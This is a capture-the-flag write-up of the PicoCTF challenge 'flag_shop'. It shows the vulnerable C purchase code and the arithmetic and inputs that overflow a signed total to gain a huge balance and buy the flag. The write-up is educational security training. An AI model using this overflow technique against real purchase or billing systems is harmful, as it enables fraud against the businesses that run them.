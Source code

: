 ```yaml
---
title: "PicoCTF: flag_shop"
date: 2024-11-20T14:26:45-06:00
draft: false
tags:
- PicoCTF
- Integer Overflow
- Code Review
---
```



### Description
flag_shop is a challenge on PicoCTF where an integer overflow vulnerability allows for the purchase of an 1337 flag where we otherwise would have insufficient funds.

### Walkthrough
#### Functionality Testing
Connecting to the Pico server, we get a menu with several options.

```
┌──(kali㉿kali)-[/tmp]
└─$ nc jupiter.challenges.picoctf.org 9745
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
```

We can see our account balance.

```
 Enter a menu selection
1



 Balance: 1100 
```

We can also buy flags, of which there are two options. Options 1 costs 900 each, whereas option 2, the "1337 flag", costs 100000 each.

```
 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
```

```
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one
```

We are asked to buy a flag, presumably the 1337 flag, so let's get started.


#### Code Review
The first thing that caught my eye was the usage the unsecure ```scanf()```. ```scanf()``` takes data from 
standard input and stores it to the address of a variable. However, it does not set a limit on the size of user input, meaning
 it is vulnerable to overflow. For this challenge, I did not need to exploit ```scanf()```, but it is still a vulnerability worth 
 keeping in mind.

We also see that the ```store.c``` uses an integer to store the total cost of the flags in 
```total_cost```, meaning it can be interpreted as positive or negative. ```total_cost``` is derived by multiplying the cost of flag 1 
(900) with the number of flags our user wants to buy, so the number of flags we buy could flip the most significant bit of ```total_cost``` to 1, 
turning it into a negative number.

```C
            if(auction_choice == 1){
                printf("These knockoff Flags cost 900 each, enter desired quantity\n");
                
                int number_flags = 0;
                fflush(stdin);
                scanf("%d", &number_flags);
                if(number_flags > 0){
                    int total_cost = 0;
                    total_cost = 900*number_flags;
                    printf("\nThe final cost is: %d\n", total_cost);
                    if(total_cost <= account_balance){
                        account_balance = account_balance - total_cost;
                        printf("\nYour current balance after transaction: %d\n\n", account_balance);
                    }
                    else{
                        printf("Not enough funds to complete purchase\n");
                    }   
                }   
            }
```


#### Exploitation
In two's complement, the most significant bit, or leftmost digit determines whether a number is positive (0) or negative (1). 
When our total cost ends up being greater than the maximum positive integer, the cost becomes negative if the most significant bit is 1.
Since the price of a flag is 900, we can overflow our cost by buying ```maximum_integer/price_per_flag``` flags. Of course, this value needs to be
rounded up (or +1 if the quotient is a whole number).

```
┌──(kali㉿kali)-[/tmp]
└─$ python3
Python 3.12.6 (main, Sep  7 2024, 14:20:15) [GCC 14.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import math
>>> math.ceil(2147483647/900)
2386093
>>> 2147483647/900
2386092.941111111
```

However, when I try to buy 2386093 flags, I am thrown deep into debt!

```
These knockoff Flags cost 900 each, enter desired quantity
2386093

The final cost is: -2147483596

Your current balance after transaction: -2147482600
```

Let us figure out why this is happening. I've provided a script below to find the binary representation of an integer.

```C
#include <stdio.h>
#include <stdlib.h>
#include <strings.h>


void getBin(int);

int main(int argc, char* argv[]) 
{
        if (argc != 2)
        {
                printf("Usage: %s <num>", argv[0]);
                exit(1);
        }

        getBin(atoi(argv[1]));

        return 0;
}

void getBin(int num)
{
        char bin[33];
        unsigned short index = 0;
        bin[index] = (num >> 31 & 1) + 48;

        for (int i = 1 << 30; i > 0; i >>= 1)
        {
                index++;
                num & i ? (bin[index] = '1') : (bin[index] = '0');
        }

        bin[32] = '\0';

        printf("Number: %d\n", num);
        printf("Binary: %s\n", bin);

        return;
}
```

Calculating our expense, we get a positive number.

```
┌──(kali㉿kali)-[/tmp]
└─$ ./int2bin $(( 0-2386093*900  ))
Number: 2147483596
Binary: 01111111111111111111111111001100
```

However, we start with 1100 in our balance, not 0. If we recalculate our balance with that accounted for, we get a negative number.

```
┌──(kali㉿kali)-[/tmp]
└─$ ./int2bin $(( 1100-2386093*900  ))
Number: -2147482600
Binary: 10000000000000000000010000011000
```

The easiest way to fix our debacle would be to add 1100/900 when calculating the number of flags we need to buy since 
we will need to overflow an additional 1100 for flags that cost 900 each. 

```
>>> math.ceil(2147483647/900+1100/900)
2386095
```

And now we have a large, positive amount of money after the transaction...

```
These knockoff Flags cost 900 each, enter desired quantity
2386095

The final cost is: -2147481796

Your current balance after transaction: 2147482896
```

...and buy the 1337 flag.

```
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1
YOUR FLAG IS: picoCTF{m0n3y_<redacted>}
Welcome to the flag exchange
We sell flags
```